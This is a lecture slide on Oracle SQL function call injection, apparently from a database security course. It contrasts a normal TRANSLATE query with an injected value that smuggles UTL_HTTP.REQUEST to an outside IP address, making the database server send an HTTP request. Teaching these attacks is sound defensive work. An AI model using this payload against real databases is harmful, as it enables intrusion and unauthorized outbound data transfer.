

# Function Call Injection
	SELECT TRANSLATE (‘user input’, ‘from_string’, ‘to_string’) FROM dual;
TRANSLATE is used to replace a string of characters with another string of characters
This type of SQL statement is subjected to a function injection attack:
	SELECT TRANSLATE (“||UTL_HTTP.REQUEST (‘http://129.107.2.1/’)||”, ‘98765432’, ‘9876’) FROM dual;
The attacker can retrieve useful information from the database server—located at the URL that is passed as a parameter—and send it to the Web server (that calls the TRANSLATE function).
46